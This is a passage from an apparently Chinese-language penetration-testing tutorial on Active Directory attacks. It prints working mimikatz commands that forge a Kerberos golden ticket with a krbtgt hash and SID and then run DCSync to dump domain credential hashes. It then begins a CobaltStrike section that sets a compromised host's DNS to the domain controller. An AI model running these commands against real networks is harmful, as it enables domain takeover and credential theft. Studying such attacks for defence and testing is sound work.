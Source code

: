 然后执行如下命令生成黄金票据并导入内存中，就拥有导出任意用户哈希的权限了。

```
mimikatz.exe

#生成并导入黄金票据到当前内存中
kerberos::golden /user:administrator /domain:xie.com /sid:S-1-5-21-1313979556-3624129433-4055459191 /krbtgt:badf5dbde4d4cbbd1135cc26d8200238 /ptt

#验证是否成功，导出指定用户哈希
lsadump::dcsync /domain:xie.com /user:krbtgt /csv
```

如图所示，通过黄金票据攻击之后，即有权限导出域内任意用户哈希了！

![截图](fdf752deda082758e42ebf4f95ede276.png)

### 3.使用 CobaltStrike 进行攻击

当使用 CobaltStrike 进行攻击时，上线的机器可以是域中的普通机器，也可以不是域中的机器。当上线的机器不在域中时，需要将该机器的 DNS 服务器设置为域控。命令行设置 DNS 服务器命令如下：

```
netsh interface ip set dns "以太网" static 10.211.55.4
```

如图所示，通过 CobaltStrike 设置当前主机的 DNS 为 10.211.55.4.

![截图](3f514f7da01510ee82a17ebee55a8b3e.png)

如图所示，然后查询即可看到 DNS 服务器此时已经设置为 10.211.55.4 了。

